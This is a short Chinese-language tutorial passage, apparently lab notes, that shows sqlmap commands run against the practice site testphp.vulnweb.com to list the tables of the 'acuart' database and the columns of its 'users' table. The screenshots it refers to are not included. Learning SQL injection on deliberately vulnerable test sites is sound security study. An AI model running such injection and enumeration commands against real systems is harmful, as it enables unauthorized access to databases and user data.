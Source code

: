 查询“acuart”数据库的表

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --tables -D "acuart" --batch
```

![image-20240412105421099](../图片/image-20240412105421099.png)

查询到“acuart”数据库的表名



![image-20240412105439229](../图片/image-20240412105439229.png)

查询“acuart”数据库中的”users“表中的列名



```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --columns  -T "users" -D "acuart" --batch
```

![image-20240412105926737](../图片/image-20240412105926737.png)
